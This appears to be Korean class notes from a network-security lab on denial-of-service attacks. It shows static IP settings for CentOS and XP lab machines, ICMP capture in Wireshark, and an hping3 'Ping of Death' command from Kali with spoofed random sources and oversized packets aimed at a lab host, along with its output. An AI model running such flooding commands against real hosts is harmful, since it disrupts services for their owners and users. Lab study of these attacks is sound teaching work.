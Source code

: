 # 10.06 DoS, LandAttack, Smurf Attack, TCP Syn looding, Syscookie, TCP Connect Flood, UDP Flooding, DDOS, GET Flooding, Slow HTTP,  포트 미러링

### 일반적인  PING

###### Cent

[root@Linux-11 바탕화면]# vim /etc/sysconfig/network-scripts/ifcfg-eth0

```
DEVICE=eth0
TYPE=Ethernet
ONBOOT=yes
NM_CONTROLLED=no
BOOTPROTO=static
IPADDR=172.16.10.20
NETMASK=255.255.255.0
GATEWAY=172.16.10.254
DNS1=168.126.63.1
DNS2=8.8.8.8
-> 원상복귀
```

[root@Linux-11 바탕화면]# service network restart

###### XP

```
IP 172.16.10.10
Subnet 255.255.255.0
Gateway 172.16.10.254

DNS 168.126.63.1
```



###### 칼리

와이어샤크 -> eth0 -> Filter : icmp

root@kali-04:~/Desktop# ping -c 2 172.16.10.20 // -c = count 핑을 2개만 보내겠다.

와이어 샤크 확인 (86 byte 밖에 안됨)

root@kali-04:~/Desktop# ifconfig eth1 down // 꺼주기



###  DOS 공격 (95p) [Ping of Death]

root@kali-04:~/Desktop# hping3 -1 --rand-source -d 65000 172.16.10.20 // -1 = icmp, 플러드 옵션은 뺐음

```
HPING 172.16.10.20 (eth0 172.16.10.20): icmp mode set, 28 headers + 65000 data bytes
len=1500 ip=172.16.10.20 ttl=64 DF id=50792 icmp_seq=0 rtt=11.0 ms
len=1500 ip=172.16.10.20 ttl=64 DF id=11889 icmp_seq=2 rtt=16.2 ms
len=1500 ip=172.16.10.20 ttl=64 DF id=16268 icmp_seq=3 rtt=7.2 ms
^C
--- 172.16.10.20 hping statistic ---
4 packets transmitted, 3 packets received, 25% packet loss
round-trip min/avg/max = 7.2/11.5/16.2 ms


```
